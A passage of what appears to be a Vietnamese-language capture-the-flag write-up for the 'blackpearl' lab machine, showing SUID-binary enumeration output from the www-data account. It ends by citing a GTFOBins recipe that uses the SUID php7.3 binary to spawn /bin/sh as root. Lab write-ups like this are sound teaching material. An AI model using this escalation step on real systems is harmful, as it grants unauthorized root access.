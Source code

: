 strace Not Found

-rwsr-xr-- 1 root messagebus 50K Jul  5  2020 /usr/lib/dbus-1.0/dbus-daemon-launch-helper

-rwsr-xr-x 1 root root 10K Mar 28  2017 /usr/lib/eject/dmcrypt-get-device

-rwsr-xr-x 1 root root 427K Jan 31  2020 /usr/lib/openssh/ssh-keysign

-rwsr-xr-x 1 root root 35K Jan 10  2019 /usr/bin/umount  --->  BSD/Linux(08-1996)

-rwsr-xr-x 1 root root 44K Jul 27  2018 /usr/bin/newgrp  --->  HP-UX_10.20

-rwsr-xr-x 1 root root 51K Jan 10  2019 /usr/bin/mount  --->  Apple_Mac_OSX(Lion)_Kernel_xnu-1699.32.7_except_xnu-1699.24.8

-rwsr-xr-x 1 root root 4.6M Feb 13  2021 /usr/bin/php7.3 (Unknown SUID binary!)

-rwsr-xr-x 1 root root 63K Jan 10  2019 /usr/bin/su

-rwsr-xr-x 1 root root 53K Jul 27  2018 /usr/bin/chfn  --->  SuSE_9.3/10

-rwsr-xr-x 1 root root 63K Jul 27  2018 /usr/bin/passwd  --->  Apple_Mac_OSX(03-2006)/Solaris_8/9(12-2004)/SPARC_8/9/Sun_Solaris_2.3_to_2.5.1(02-1997)

-rwsr-xr-x 1 root root 44K Jul 27  2018 /usr/bin/chsh

-rwsr-xr-x 1 root root 83K Jul 27  2018 /usr/bin/gpasswd

Hoặc dùng lệnh để kiểm tra suid

www-data@blackpearl:~/blackpearl.tcm/navigate$ find / -type f -perm /4000 2>/dev/null

<cm/navigate$ find / -type f -perm /4000 2>/dev/null

/usr/lib/dbus-1.0/dbus-daemon-launch-helper

/usr/lib/eject/dmcrypt-get-device

/usr/lib/openssh/ssh-keysign

/usr/bin/umount

/usr/bin/newgrp

/usr/bin/mount

/usr/bin/php7.3

/usr/bin/su

/usr/bin/chfn

/usr/bin/passwd

/usr/bin/chsh

/usr/bin/gpasswd

Dùng gtfobins để tra cứu suid

phần suid có lệnh tham khảo như sau

sudo install -m =xs $(which php) .

CMD="/bin/sh"
